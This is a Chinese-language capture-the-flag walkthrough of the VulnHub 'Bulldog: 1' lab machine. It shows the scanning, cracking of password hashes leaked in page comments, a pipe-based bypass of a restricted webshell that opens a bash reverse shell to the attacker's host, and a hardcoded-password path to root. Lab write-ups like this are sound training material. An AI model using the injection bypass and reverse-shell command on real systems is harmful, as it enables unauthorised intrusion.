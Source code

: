 # BULLDOG: 1

2025.02.12 https://www.vulnhub.com/entry/bulldog-1,211/

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
23/tcp   open  telnet
80/tcp   open  http
8080/tcp open  http-proxy
```

访问 80 和 8080 两个端口显示的网站一致，gobuster 发现 http://192.168.5.40:8080/notice/ 中可以看到一个可能存在的用户名: Winston Churchy (CEO) ，另外发现 2 个链接: http://192.168.5.40:8080/admin 和 http://192.168.5.40:8080/dev， /admin 是一个系统登陆窗口使用 Django 开发，/dev 页面上显示了一些提示， 同时发现了一个 webshell 的页面 http://192.168.5.40/dev/shell

查看 /dev 的页面源码，在底部发现了一些重要信息：

```
<!--Need these password hashes for testing. Django's default is too complex-->
<!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
Team Lead: alan@bulldogindustries.com<br><!--6515229daf8dbdc8b89fed2e60f107433da5f2cb-->
Back-up Team Lead: william@bulldogindustries.com<br><br><!--38882f3b81f8f2bc47d9f3119155b05f954892fb-->
Front End: malik@bulldogindustries.com<br><!--c6f7e34d5d08ba4a40dd5627508ccb55b425e279-->
Front End: kevin@bulldogindustries.com<br><br><!--0e6ae9fe8af1cd4192865ac97ebf6bda414218a9-->
Back End: ashley@bulldogindustries.com<br><!--553d917a396414ab99785694afd51df3a8a8a3e0-->
Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5-->
Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e-->
```

使用 https://crackstation.net/ 在线对哈希进行解密，得到了 2 个明文密码：

```
bulldog
bulldoglover
```

得到了登陆凭据: nick:bulldog 和 sarah:bulldoglover 用这 2 个凭据登陆 /admin 后，发现页面上没有权限。这时在访问 http://192.168.5.40/dev/shell/ 发现可以进入到 webshell 中了。

webshell 中显示可以执行下面的命令：

```
ifconfig
ls
echo
pwd
cat
rm
```

但是可以绕过：ls|id 这时也会执行其他命令，所以直接反弹 shell，kali 上建立监听:

```
ls|/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'
```

得到了反弹的链接：

```
django@bulldog:/home/django/bulldog$ id
id
uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)
```

发现 2 个普通用户：

```
bulldogadmin:x:1000:1000:bulldogadmin,,,:/home/bulldogadmin:/bin/bash
django:x:1001:1001:,,,:/home/django:/bin/bash
```

在 /home/bulldogadmin/.hiddenadmindirectory 中发现了 2 个文件，note.txt ：

```
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ cat note
Nick,

I'm working on the backend permission stuff. Listen, it's super prototype but I think it's going to work out great. Literally run the app, give your account password, and it will determine if you should have access to that file or not!

It's great stuff! Once I'm finished with it, a hacker wouldn't even be able to reverse it! Keep in mind that it's still a prototype right now. I am about to get it working with the Django user account. I'm not sure how I'll implement it for the others. Maybe the webserver is the only one who needs to have root access sometimes?

Let me know what you think of it!

-Ashley
```

另外一个 customPermissionApp 是一个可执行程序，但是没有执行权限，但是有读权限，使用当前用户 cp 一份该程序。根据上面的提示，逆向该程序，找到了一串字符串: SUPERultimatePASSWORDyouCANTget ，并且程序中执行了 system("sudo su root"); 。执行这个程序，输入这个字符串，得到了 root 权限：

```
./customPermissionApp

root@bulldog:~# cat congrats.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

As far as I know there are two ways to get root. Can you find the other one?

Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!
```

最后发现 django 用户 sudo -l 权限为 ALL。
